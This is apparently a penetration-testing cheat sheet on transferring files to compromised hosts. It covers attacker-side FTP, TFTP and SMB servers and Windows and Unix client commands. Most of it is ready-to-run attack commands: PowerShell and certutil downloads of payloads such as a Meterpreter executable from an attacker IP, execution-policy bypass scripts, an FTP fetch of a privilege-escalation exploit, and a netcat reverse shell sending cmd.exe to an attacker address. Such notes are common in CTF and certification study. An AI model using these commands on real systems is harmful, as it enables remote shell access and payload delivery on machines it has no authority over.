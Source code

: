 # File transfert


## nc

/usr/share/windows-binaries/nc.exe


## Server ftp

pip install pyftpdlib
python -m pyftpdlib -p 21



## Server http


## Server tftp

service atftpd start
Complicated to configure...

Metasploit, like with FTP, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT

## SMB server

Enter smbserver.py, part of the Impacket project [https://github.com/SecureAuthCorp/impacket] 
[tools/impacket-impacket_0_9_19.zip]
To launch a simple SMB server on port 445, just specify a share name and the path you want to share:

````
# python smbserver.py ROPNOP /root/shells
````


## Client Unix


wget, fetch, ftp, tftp



## Client windows

### http

````
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
````

````
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')"
````

````
echo $storageDir = $pwd > upload.ps1
echo $url = "http://192.168.168.169/nc.exe" >> upload.ps1
echo $file = "$storageDir\nc.exe" >> upload.ps1
echo (New-Object System.Net.WebClient).DownloadFile($url,$file) >> upload.ps1
powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File upload.ps1
````

Run reverse netcat connection and connect to attacker:
````
echo $secpasswd = ConvertTo-SecureString "myPassword1" -AsPlainText -Force >script.ps1
echo $mycreds = New-Object System.Management.Automation.PSCredential ("admin", $secpasswd) >>  script.ps1
echo $computer = "User-PC" >> script.ps1
echo [System.Diagnostics.Process]::Start("C:\tmp\nc.exe","192.168.168.169 443 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer) >> script.ps1
powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File script.ps1
````


### ftp

echo open 10.10.14.6>ftp_commands.txt&echo anonymous>>ftp_commands.txt&echo password>>ftp_commands.txt&echo binary>>ftp_commands.txt&echo get ms15051.exe>>ftp_commands.txt&echo bye>>ftp_commands.txt&ftp -s:ftp_commands.txt


### tftp

tftp -i A.B.C.D GET filename

New version of windows: activate it : 
pkgmgr /iu:"TFTP" 


### smb

smbclient -L 10.10.14.30 --no-pass
net view \\10.10.14.30
dir \\10.10.13.30\ROPNOP
copy  \\10.10.13.30\ROPNOP\file.exe .


